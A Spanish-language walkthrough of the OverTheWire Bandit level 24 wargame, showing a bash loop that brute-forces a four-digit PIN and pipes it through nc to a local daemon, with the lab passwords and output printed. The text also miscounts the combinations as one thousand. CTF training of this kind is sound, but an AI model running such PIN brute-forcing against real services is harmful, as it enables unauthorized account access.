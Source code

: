 
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.
## Datos de usuario del nivel anterior
Usuario: ssh bandit24@bandit.labs.overthewire.org -p 2220
Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución 
1.- Primero comenzamos cambiando de directorio como se hizo en nuestro nivel anterior:
`bandit24@bandit:~$ cd /etc/cron.d`
`bandit24@bandit:/etc/cron.d$ ls`
`cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat`
`cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir``
Aquí hice una prueba tratando de ejecutar lo siguiente:
`cat /etc/cron.d/conjob_bandit25_root`
Pero obviamente, nos iba a marcar un error. Entonces para está solución cree un script en un directorio temporal.
Para ello los comandos anterires no nos ayudan, nos situamos en `tmp` que es una carpeta que nos permite realizar las tareas correctamente:

`bandit24@bandit:~$ cd /tmp`
`bandit24@bandit:/tmp$`

2.- Mediante el comando mkdir, creamos un directorio en donde guardaremos nuestro script:
`bandit24@bandit:/tmp$ mkdir bandi24`
3.- Ahora mediante el comando nano con la extensión de SH creamos nuestro script: 
`bandit24@bandit:/tmp/bandi24$ nano pass.sh`
4.- Una vez ahí pondremos a través de un ciclo for nuestra condición que cicle desde la posición 0 hasta la 999 así dando las mil posibles combinaciones posibles que nos pueden generar el pin correcto para la contraseña:
#!/bin/bash

for i in {0000..9999}

do

                echo " VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" //Cabe recalcar que aquí hace el ciclo con la contraseña del nivel anterior hasta coincidir con el correcto

done
5.- Mediante chmod establecemos los permisos necesarios al usuario así como su vez ejecutamos nuestro script:
`bandit24@bandit:/tmp/bandi24$ chmod u+x pass.sh`

6.- Finalmente a nuestro script lo ejectuamos concatenando con un nc para poder comunicarnos con el puerto mencionado en el objetivo,  acompañado de un grep para que nuestro script haga la tarea de comparar todos y haga la execepción en nuestro pin indicado que no venga acompañado de la cadena "Wrong":
`bandit24@bandit:/tmp/bandi24$ ./pass.sh | nc localhost 30002 | grep -v "Wrong"`
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Cabe recalcar que aquí se inserta nuestra contraseña, del nivel anterior para poder mandarnos la siguiente
## `Contraseña obtenida en este nivel 
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
## Notas 
Es importante saber el uso del comando Chmod ya que tiene muchas variables, pero hay que saber distinguir para que son cada una de ellas, por ejemplo en el nivel anterior usamos la línea chmod 777 que nos permite, lectura, ejecución y escritura dentro de este. En este caso usamos la u+x la cual nos permite por la parte de x ejecutar nuestro script y la u nos sirve para otorgar permisos al usuario. 
## Referencias 
https://docs.oracle.com/cd/E19620-01/805-7644/6j76klop3/index.html#:~:text=grep%20se%20utiliza%20muy%20a,de%20comunicaci%C3%B3n%20es%20%22%20%7C%20%22.
https://www.ibm.com/docs/es/aix/7.1?topic=c-chmod-command#chmod__row-d3e95704
https://gospelidea.com/blog/que-son-los-permisos-chmod#:~:text=Los%20permisos%20CHMOD%20a%20trav%C3%A9s,incluye%20servidores%20dedicados%20o%20VPS.
